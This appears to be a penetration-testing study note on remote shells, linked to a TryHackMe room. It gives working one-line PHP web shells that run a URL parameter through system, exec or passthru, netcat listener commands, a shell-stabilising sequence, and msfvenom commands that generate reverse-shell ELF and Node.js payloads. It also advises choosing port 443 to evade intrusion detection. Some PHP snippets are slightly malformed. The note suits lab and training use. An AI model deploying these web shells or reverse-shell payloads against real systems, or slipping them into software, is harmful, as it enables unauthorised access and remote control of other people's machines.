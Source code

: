 # Shell

[![introtoshells](../../_badges/thm/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-md-2"><div>

The best kind of situation of a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution
</div><div>

The script leading to a RCE could be a

* a **reverse shell**: we open a port on our machine, and the target connect to it. We can run commands on the target, and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.

> To avoid alerting IDS, a bind/reverse shell should use a port that would not be suspected such as `443` (HTTPS).<br>
>
> It's not always possible to use a bind/reverse shell, there will most likely be a firewall blocking access.
</div></div>

> There is a script called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create reverse/bind/web shells.

<hr class="sep-both">

## web shell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ compact one-line web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?=system($_GET["cmd"]." &2>1" ?? "whoami");?>
```

* ➡️ simple web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo system($_GET["cmd"]." &2>1" ?? "whoami");
?>
```

</div><div>

* ➡️ simple web shell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec ($_GET["cmd"]." &2>1" ?? "whoami", $output).;
echo implode(' ', $output);
?>
```

* ➡️ simple web shell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
<?php
echo passthru($_GET["cmd"]." &2>1" ?? "whoami");
?>
```
</div></div>

<hr class="sep-both">

## Notes on reverse/bind shells

<div class="row row-cols-md-2"><div>

In a reverse shell, the hacker will usually listen on a port

```bash
$ nc -lnvp port
```

While in a bind shell, the hacker will listen

```bash
$ nc IP port
```

In any case, it's worth noting that such a shell is instable. 

* If you press CTRL+C, then the shell will dies while you may have wanted to cancel a command on the target instead.
* You may also want to use TAB or other utilities that make life easier.
* You can use commands requiring user input
</div><div>

There are a few solutions way to make things better

* ➡  Manually

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
xxx@yyy:path$ export TERM=xterm # can use clear...
xxx@yyy:path$ # CTRL+Z
kali@kali:/tmp$ stty raw -echo; fg
xxx@yyy:path$ # can use CTRL+C / ...
xxx@yyy:path$ exit
kali@kali:/tmp$ reset # restore your terminal
```

* ➡️ Use a wrapper such as [rlwrap](https://github.com/hanslub42/rlwrap) (1.8k ⭐)

```bash
$ sudo rlwrap nc -lvnp 4444
xxx@yyy:path$ # still CTRL+C not working
```

* ➡️ Use a wrapper such as [penelope](https://github.com/brightio/penelope) (0.3k ⭐)

```bash
$ ./penelope.py 4444
xxx@yyy:path$ # every working?
```
</div></div>

<hr class="sep-both">

## Reverse shell

<div class="row row-cols-md-2"><div>

* ➡️PHP

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015).
</div><div>
</div></div>

<hr class="sep-both">

## msfvenom to create shells

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit
$ msfvenom --list payloads | grep meterpreter
```

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (R=RAW) opening a reverse shell with netcat
# same as "-f raw" (to check)?
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 R
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

...
</div></div>
